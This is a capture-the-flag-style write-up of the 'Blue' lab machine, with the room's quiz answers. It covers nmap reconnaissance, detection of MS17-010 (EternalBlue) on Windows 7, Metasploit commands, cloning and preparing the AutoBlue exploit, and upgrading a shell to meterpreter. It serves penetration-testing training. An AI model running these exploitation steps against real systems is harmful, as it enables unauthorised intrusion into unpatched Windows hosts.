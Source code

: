 ```yaml
---
description: 'OS: Windows'
---
```


# BLUE

**بسم الله الرحمن الرحيم**

<figure><img src="../../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

### Recon

using Nmap&#x20;

```bash
nmap 10.10.55.229 -sV -sC 
```

How many ports are open with a port number under 1000?

```bash
sudo nmap 10.10.55.229 -p 1-1000  #Result = 3
```

<figure><img src="../../../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

```
sudo nmap 10.10.55.229 -sV  -p T:135,139,445 --script="smb-vuln-*"

```

<figure><img src="../../../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
**the OS windows VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)**
{% endhint %}

### Gain Access / initial Access

using MSF6

```bash
msfconsole
search ms17-010
use 0
options
set RhOSTS


```



<figure><img src="../../../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

My connection was cut off  there was a problem with vpn

&#x20;

<figure><img src="../../../../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

but in my PC <mark style="color:red;">**FAIl**</mark>

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;i will try search I Found exploit [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
git clone  https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010/shellcode 
./shell_prep.sh
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Escalate

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)&#x20;

**`Answer`**` ``post/multi/manage/shell_to_meterpreter`

<figure><img src="../../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Select this (use MODULE\_PATH). Show options, what option are we required to change?

**Answer** `session`\
